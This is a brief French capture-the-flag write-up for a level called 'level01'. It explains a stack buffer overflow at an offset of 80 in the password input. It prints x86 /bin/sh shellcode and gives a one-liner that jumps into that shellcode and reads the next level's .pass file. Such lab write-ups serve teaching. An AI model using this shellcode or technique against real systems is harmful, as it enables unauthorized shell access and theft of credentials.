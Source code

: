 # level01

Notre shellcode:
```
\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

On voit que le programme attend 2 entrées.
- Un username dont les 7 premiers chars doivent être `dat_wil`
- Un password, mais ne sert à rien.

On remarque que l'on peut buffer overflow sur la stack grâce à l'input du mdp avec un offset de 80.

On va vouloir jump sur notre string global + 7 chars (pour passer `dat_wil`), et à la suite de cet input, mettre notre shellcode.

L'adresse de la globale étant `0x804a040`, on veut jump sur `0x804a047`.

```bash
(python -c 'print "dat_wil" + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'; python -c 'print "A"*80 + "\x47\xa0\x04\x08"'; echo "whoami; cat /home/users/level02/.pass") | ./level01
```
